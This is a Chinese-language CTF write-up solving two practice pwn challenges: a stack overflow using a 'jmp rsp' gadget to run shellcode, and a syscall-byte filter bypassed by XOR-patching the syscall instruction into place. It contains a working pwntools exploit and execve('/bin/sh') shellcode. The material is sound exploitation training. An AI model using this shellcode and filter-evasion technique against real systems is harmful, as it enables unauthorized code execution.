





两道Pwn练手，jmp rsp和syscall检测的绕过

<!-- more -->

## 前言

这两道题涉及的考点分别为**jmp rsp**的绕过**syscall检测**

### 1. stack

checksec一下，保护全关

IDA查看main函数。如下：

<div align=center></div>

注意还有一个gift函数，其汇编代码如下：

<div align=center></div>

给了一个`jmp rsp`,**这是一个可以利用的gadget**

这里给大家看看我的exp：

<div align=center></div>

**这里的思路主要是在栈上先用shellcode汇编代码填充缓冲区，最后用垃圾数据 a 补齐到 rbp位置，下一步就是ret了**

**我们让ret指令，ret到我们`jmp rsp`指令的这个地址，也就是说执行ret后，我们的rip变成了`jmp rsp`这个指令**

**这里我说一下`ret`和`jmp rsp`两个指令的区别**

**我的理解是：第一，ret指令执行完之后，rsp会自动 rsp + 8(相当于栈顶的数据被pop到rip了)；而jmp rsp指令执行后，相当于rip 直接进入到 rsp的代码进行执行当中，并没有进行pop，所以rsp 不会进行rsp +8**

**第二，当当前栈顶数据是汇编代码时，jmp rsp可以直接执行汇编代码（类似 call）；而ret则不行，无法直接执行汇编代码，除非栈顶数据是汇编代码的固定地址，在这种情况下，可以ret 到汇编代码的固定地址来进行执行**

以上只是我的个人理解

刚才我们的exp进行到了`jmp rsp`这一个指令，按照我刚才的理解，接下里我们如果直接接汇编代码，是可以执行的

所以我构造了一个**可以改变rsp位置的汇编代码：**

```
sub_jump=asm('''
sub rsp,0x30
jmp rsp
''')
```

注意这里是**sub rsp,0x30**，就是因为之前的`jmp rsp`指令没有改变我们汇编代码的位置(没有 pop出去)，所以是 0x30而不是0x38

进行`sub rsp,0x30`后，我们再`jmp rsp` ,跳转到`rsp`的位置进行进入执行

这时候因为rsp已经被我们改到了缓冲区的开头，缓冲区的开头正好就是我们写入的shellcode汇编代码，这时候`jmp rsp`直接进入执行，getshell！

### 2. qwq

这道题主要是考syscall过滤的绕过,相关内容可以参考以下文章:

[用动态生成的代码绕过程序的静态安全检查——shellcode敏感字节检测绕过](https://zhuanlan.zhihu.com/p/666069352)

checksec以下，开了NX保护

IDA看看main函数，如下：

<div align=center></div>

可以看到这里有一个循环，检测数据的某一个位置是不是`15`，同时后一位是不是`5`

这是什么意思呢？

`15`的十六进制就是`0x0f` , `5`的十六进制就是`0x05`

而`\x0f\x05`就是 `syscall` 的机器码。**也就是说，这个for循环就是遍历我们输入的数据，检查是否含有syscall，如果被检测到了，程序直接退出**

所以解题的关键就是要绕过对`\x0f\x05` 的检测

按照刚才我给出的那篇文章，采取异或的方式即可绕过

我的exp如下：

<div align=center></div>

**因为mmap开了一个固定地址，所以我们只要把shellcode读入到固定地址中，利用ret跳转进固定地址即可**

这里解释一下exp：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

#io=remote("challenge.basectf.fun",47700)
io=process('./qwq')
elf=ELF('./qwq')
#gdb.attach(io,'b *(0x4012F5)')
shellcode_addr=0x11451400 #shellcode的固定地址，用于ret跳转
# shellcode len: 44 bytes -> 0x2C  0x11451400+0x2C = 0x1145142C -> target addr
shellcode=asm("""
    mov rax, 0x1145142C #后面的地址是固定地址+shellcode长度所得，结果就是shellcode末尾地址
    mov rbx, 0x5a5 
    xor rbx, 0xaa # 0x5a5与0xaa异或之后就是0x50f，即\x0f\x05
    mov [rax], rbx #将shellcode末尾地址指向的内容改为syscall的机器码
    
    mov rbx, 0x0068732f6e69622f #之后就是正常的shellcode编写
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax #我们的syscall机器码，最终是写到这一指令的下面一个位置，也就是0x1145142C
    """)

payload=shellcode.ljust(0x18,b'a') #补齐shellcode长度
io.sendline(payload) #因为汇编指令到后面有个call rdx，而此时rdx就是shellcode，直接getshell

io.interactive()
```
这里计算shellcode长度的方法，用`print(len(shellcode))`打印出来看看即可

然后`target_addr`，也就是我们要的**shellcode末尾地址**，就是 shellcode的地址 + shellcode的长度 = target_addr

**还有一个点要注意，就是我们用len求shellcode长度之前，先把shellcode的框架写好，这样求出来的长度才是正确的**

框架以及长度计算的方法一般如下：

```
from pwn import *

shellcode = asm("""
    mov rax, 0x00112233445566 #这里的地址随便写，后面改为计算出的shellcode末尾地址即可
    mov rbx, 0x5a5
    xor rbx, 0xaa
    mov [rax], rbx

    mov rbx, 0x0068732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi,esi
    xor edx,edx
    push 59
    pop rax
    """)

context(os="linux", arch="amd64")
print(len(shellcode))
```

## 结语

多学多练qwq
